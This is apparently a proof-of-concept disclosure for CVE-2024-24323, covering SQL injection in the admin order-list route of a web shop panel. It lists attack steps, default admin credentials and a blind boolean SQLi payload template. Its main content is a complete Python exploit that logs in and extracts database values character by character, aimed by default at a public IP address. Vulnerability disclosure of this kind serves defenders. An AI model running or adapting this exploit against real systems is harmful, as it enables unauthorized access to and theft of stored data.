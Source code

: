 # CVE-2024-24323

## Attack Process
1. Visit website `https://47.119.164.125/` or locally hosted site, `http://127.0.0.1:9527`, that you've set up yourself.
2. Be admin via admin123/admin123
3. SQLi will occur on the parameters `nickname`, `consignee`, `orderSN`, and `orderStatusArray` of the route `/admin/order/list`. Use payload which is similar to `%' and ascii(substr(({sql}),{num},1))>{mid} and '%' = '` where {sql} is the SQL query statement being executed.
4. Here is an EXAMPLE of EXP.


## EXP
```
import requests

basic_url = "https://47.119.164.125"
# basic_url = "http://127.0.0.1:9527"

# the SQL query statement being executed
sql = "user()"

def bool_blind(sql, num):
    low = 32
    high = 128
    mid = (low+high)//2
    while low < high:
        route_path = f"/admin/order/list?page=1&limit=1&sort=add_time&order=desc&start=&end=&nickname=%' and ascii(substr(({sql}),{num},1))>{mid} and '%' = '"
        r = s.get(
            basic_url+route_path,
            verify=False
        )
        print(len(r.text))
        if len(r.text) < 100:
            high = mid
        else:
            low = mid+1
        mid=(low+high)//2
    if mid <= 32 or mid >= 127:
        return chr(mid)
    return chr(mid)

s = requests.Session()
# login
login_path = "/admin/auth/login"
r = s.post(
    basic_url+login_path, 
    json={
        "username": "admin123",
        "password": "admin123",
        "code": ""
    },
    verify=False
)
for l in range(20):
    route_path = f"/admin/order/list?page=1&limit=20&sort=add_time&order=desc&start=&end=&nickname=%' and length({sql})>{l} and '%' = '"
    print(basic_url + route_path)
    r = s.get(
        basic_url + route_path,
        verify=False
    )
    if len(r.text) < 100:
        break
print(l)

res = ""
for i in range(l+1):
    res += bool_blind(sql,i)
print(res)
```

